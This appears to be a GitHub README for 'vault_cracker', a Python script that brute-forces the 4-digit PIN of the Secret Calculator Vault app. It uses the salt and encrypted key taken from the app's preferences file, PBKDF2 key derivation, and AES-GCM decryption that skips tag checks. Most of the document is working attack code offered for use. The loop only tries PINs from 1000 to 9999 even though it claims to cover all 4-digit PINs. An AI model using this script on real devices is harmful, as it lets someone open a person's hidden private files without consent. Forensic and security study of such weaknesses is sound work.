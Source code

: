 # vault_cracker
Secret Calculator Vault PIN cracker

To crack the PIN for the Secret Calculator Vault app, I extracted key cryptographic values from the app’s preferences file and replicated its authentication process in Python. For each possible 4-digit PIN, I derived a cryptographic key using PBKDF2 with the stored salt, then used that key to decrypt the app’s encrypted master key with AES-GCM (ignoring the authentication tag). I hashed the decrypted result with SHA256, base64-encoded it, and compared it to the stored hash value. When a match was found, the correct PIN was revealed, demonstrating how simple PINs can be brute-forced even when strong cryptography is used.

IF YOUR CASE INVOLVED A 4 DIGIT PIN, THE FOLLOWING SCRIPT WILL WORK. IF NOT, EDIT THE VALUES ACCORDINGLY.
MAKE SURE YOU ENTER THE SALT, SYMMETRIC KEY AND HASHED KEY IN THE "ENTER VALUE" FIELD BEFORE RUNNING.
SOME DEPENDANCIES ARE REQUIRED FIRST.
=============================================================================

import base64
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Hash import SHA256

# --- Your Provided Data ---
pbkdf2_salt_b64 = "enter value"
symmetric_key_b64 = "enter value"
hashed_key_b64 = "enter value"

pbkdf2_salt = base64.b64decode(pbkdf2_salt_b64)
symmetric_key = base64.b64decode(symmetric_key_b64)
stored_hash = hashed_key_b64.strip()

# Parse IV and ciphertext—ignore tag entirely
iv = symmetric_key[2:14]            # 12 bytes
cipher_text = symmetric_key[14:46]  # 32 bytes
# tag = symmetric_key[46:]          # DROPPED—no longer used

ITERATIONS = 4096

def sha256_b64(data):
    return base64.b64encode(SHA256.new(data).digest()).decode('ascii').rstrip('=')

def attempt_pin(pin, keylen):
    # Derive primary key
    primary = PBKDF2(pin, pbkdf2_salt, dkLen=keylen, count=ITERATIONS, hmac_hash_module=SHA256)
    # Decrypt WITHOUT verifying tag
    cipher = AES.new(primary, AES.MODE_GCM, nonce=iv)
    master_key = cipher.decrypt(cipher_text)
    # Compare SHA256(master_key) as base64
    if sha256_b64(master_key) == stored_hash.rstrip('='):
        print(f"✅ PIN found: {pin} (key length: {keylen * 8} bits)")
        return True
    return False

# Brute-force all 4-digit PINs (1000–9999) for key lengths 256 & 128 bits
for pin_int in range(1000, 10000):
    pin = str(pin_int)
    for k in (32, 16):
        if attempt_pin(pin, k):
            exit()
    if pin_int % 1000 == 0:
        print(f"Tried up to {pin}")

print("❌ Failed to find PIN. Check keylen assumptions or iteration count.")
